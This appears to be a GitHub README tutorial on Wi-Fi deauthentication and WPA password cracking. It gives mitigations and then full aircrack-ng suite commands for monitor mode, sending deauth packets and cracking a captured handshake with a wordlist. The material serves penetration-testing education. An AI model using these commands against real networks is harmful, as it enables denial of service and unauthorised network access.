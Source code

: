 # Wi-Fi Deauthentication and Password Cracking Demo 

## Introduction  

Wi-Fi is a *wireless networking technology* that allows devices to connect to the internet or communicate with each other wirelessly within a certain range.  
One of the vulnerabilities in Wi-Fi networks is their susceptibility to deauthentication attacks:  
this type of attack is possible on various versions of Wi-Fi, including `WEP`, `WPA`, and `WPA2`.  

<br/>

A deauthentication attack involves sending specially crafted packets to a Wi-Fi access point, causing connected devices to disconnect.  
When devices attempt to reconnect, they perform a handshake, a process that establishes a secure connection by exchanging cryptographic keys.  
During this handshake, the essential data needed to authenticate the client is temporarily exposed:  
**If an attacker captures this handshake, they can use various tools to attempt to crack the Wi-Fi password**.  

<br/>

This is possible because the handshake contains enough information to verify passwords against the cryptographic exchange, allowing attackers to try different passwords until they find the correct one.  


Red teamers can leverage deauthentication attacks not only to capture handshakes for password cracking but also to perpetrate Denial-of-Service (DoS) attacks.  
For example, during a physical penetration test, they can disconnect wireless IP cameras or other Wi-Fi devices, potentially disrupting security measures or critical operations.  

To mitigate these attacks, several measures can be implemented:  
 
1. **Use Strong, Unique Passwords:**  Ensure that Wi-Fi passwords are complex and not easily guessable.
 
2. **Enable WPA3:**  The latest Wi-Fi security protocol, WPA3, offers enhanced protection against deauthentication attacks.  
 
3. **Implement MAC Address Filtering:**  Although not foolproof, this can add an additional layer of security by restricting access to known devices.  
 
4. **Use Network Segmentation:**  Separate critical devices and services onto different network segments to limit the impact of an attack and never connect critical devices via WiFi.  
 
5. **Monitor Network Traffic:**  Regularly monitor for unusual activity that might indicate a deauthentication attack.



## Instructions

### Alfa Adapter Setup 
Before performing any Wi-Fi deauthentication or password cracking activities, you need a compatible wireless adapter. 

I will use an "old" **Alfa AWUS036NHA**.  
[*Alfa*](https://alfa-network.eu/) adapters are a popular choice for this purpose due to their support for monitor mode and packet injection capabilities.  

1. **List USB Devices:** 
First, ensure your wireless adapter is recognized by the system:


```sh
lsusb
```

Look for the entry:


```console
Qualcomm Atheros Communications AR9271 802.11n
```
If this does not appear (particularly if you're working within a virtual machine), add the device via *VM -> Removable Devices*.  
 
2. **Install Necessary Drivers:** 
On a new Debian installation, you may need to install the appropriate drivers.  
Use the following commands to update your package list and install the driver:  


```sh
sudo apt update
sudo apt install realtek-rtl88xxau-dkms
```
**Note**: The `realtek-rtl88xxau-dkms` package is for Realtek chipsets.  
If using an Alfa AWUS036NHA with an Atheros chipset, the drivers should generally be included in the kernel.
 
3. **Verify Wireless Interface:** 
To check if the wireless interface is recognized, use:


```sh
sudo iwconfig
```

You should see an entry similar to:


```vbnet
lo        no wireless extensions.

eth0      no wireless extensions.

docker0   no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
```

Alternatively, you can list network interfaces with:


```sh
ip link show
```

### Deauthentication Attack 

Performing a deauthentication attack on a Wi-Fi network requires placing your wireless adapter into monitor mode and then using a series of tools from the `aircrack-ng` suite.
 
1. **Put Your Wireless Interface in Monitor Mode:** 
Switch your wireless interface to monitor mode to capture packets:


```sh
sudo airmon-ng start wlan0
```
This creates a new interface, typically named `wlan0mon`.
 
2. **Discover Wireless Networks:** Use `airodump-ng` to scan for available wireless networks:

```sh
sudo airodump-ng wlan0mon
```

Note the BSSID (MAC address) and channel of the target network.
 
3. **Capture Target Network Details:** 
Focus your capture on the target network to collect packets:


```sh
sudo airodump-ng --bssid <TARGET_BSSID> --channel <CHANNEL> --write <OUTPUT_FILE> wlan0mon
```
Replace `<TARGET_BSSID>`, `<CHANNEL>`, and `<OUTPUT_FILE>` with the appropriate values for your target.
 
4. **Perform the Deauthentication Attack:** 
Send deauthentication packets to disconnect clients from the target network:


```sh
sudo aireplay-ng --deauth <NUMBER_OF_DEAUTH_PACKETS> -a <TARGET_BSSID> -c <TARGET_CLIENT_MAC> wlan0mon
```
 
  - `<NUMBER_OF_DEAUTH_PACKETS>`: Number of deauth packets to send (0 for infinite).
 
  - `<TARGET_BSSID>`: BSSID of the target network.
 
  - `<TARGET_CLIENT_MAC>`: MAC address of the target client (optional for broadcasting to all clients).
 
5. **Crack the Password:** 
Once you have captured the necessary handshake packets, you can attempt to crack the Wi-Fi password:


```sh
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <TARGET_BSSID> attack_capture-01.cap
```
 
  - `-w /usr/share/wordlists/rockyou.txt`: Path to the wordlist file.
 
  - `-b <TARGET_BSSID>`: BSSID of the target network.
 
  - `attack_capture-01.cap`: The file containing the captured handshake packets. 


The following video demonstrates the process of capturing a handshake and subsequently cracking the password from the captured packets:  

